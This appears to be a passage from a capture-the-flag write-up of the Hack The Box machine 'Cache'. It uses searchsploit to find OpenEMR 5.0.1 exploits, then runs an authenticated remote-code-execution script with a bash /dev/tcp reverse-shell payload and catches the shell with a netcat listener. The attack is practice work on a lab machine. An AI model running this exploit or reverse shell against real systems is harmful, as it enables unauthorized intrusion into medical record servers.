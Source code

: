 ```bash
root@darkness:~# searchsploit "OpenEMR 5.0.1"
----------------------------------------------------------------------------- ----------------------------------------
 Exploit Title                                                               |  Path
                                                                             | (/usr/share/exploitdb/)
----------------------------------------------------------------------------- ----------------------------------------
OpenEMR 5.0.1.3 - (Authenticated) Arbitrary File Actions                     | exploits/linux/webapps/45202.txt
OpenEMR < 5.0.1 - (Authenticated) Remote Code Execution                      | exploits/php/webapps/45161.py
----------------------------------------------------------------------------- ----------------------------------------
Shellcodes: No Result
root@darkness:~# searchsploit -x exploits/php/webapps/45161.py
```

After short analysis of the exploit, it seems like it does the same thing that we did previously.

```bash
root@darkness:~# python2 45161.py http://hms.htb/ -u openemr_admin -p xxxxxx -c "bash -c 'bash -i >& /dev/tcp/10.10.14.24/443 0>&1'"
 .---.  ,---.  ,---.  .-. .-.,---.          ,---.    
/ .-. ) | .-.\ | .-'  |  \| || .-'  |\    /|| .-.\   
| | |(_)| |-' )| `-.  |   | || `-.  |(\  / || `-'/   
| | | | | |--' | .-'  | |\  || .-'  (_)\/  ||   (    
\ `-' / | |    |  `--.| | |)||  `--.| \  / || |\ \   
 )---'  /(     /( __.'/(  (_)/( __.'| |\/| ||_| \)\  
(_)    (__)   (__)   (__)   (__)    '-'  '-'    (__) 
                                                       
   ={   P R O J E C T    I N S E C U R I T Y   }=    
                                                       
         Twitter : @Insecurity                       
         Site    : insecurity.sh                     

[$] Authenticating with openemr_admin:xxxxxx
[$] Injecting payload
```

Running the exploit we get a shell.

```bash
root@darkness:~# nc -lnvp 443
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.188.
Ncat: Connection from 10.10.10.188:37032.
bash: cannot set terminal process group (2036): Inappropriate ioctl for device
bash: no job control in this shell
www-data@cache:/var/www/hms.htb/public_html/interface/main$
```
